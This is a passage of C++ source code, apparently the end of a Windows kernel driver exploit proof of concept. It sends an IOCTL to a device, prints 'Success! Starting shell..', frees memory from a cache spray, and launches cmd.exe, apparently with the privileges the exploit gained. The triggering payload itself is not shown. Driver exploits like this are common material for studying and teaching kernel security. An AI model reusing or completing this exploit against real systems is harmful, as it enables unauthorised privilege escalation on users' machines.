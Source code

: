 ```cpp
                              (LPOVERLAPPED)NULL);          // synchronous I/O

    if (!bResult) {
        printf("[-] Failed sending IOCTL\n");
        bResult = FALSE;
        goto _cleanup;
    }

    printf("[*] Success! Starting shell..\n");

    for (int i = 0; i < CACHE_SPRAY_SIZE; i++) {
        VirtualFree(arr[i], 0, MEM_RELEASE);
    }

    system("cmd.exe");
    system("pause");

_cleanup:
    if (hDevice) CloseHandle(hDevice);
    if (hFile) CloseHandle(hFile);


    return bResult;
}
```
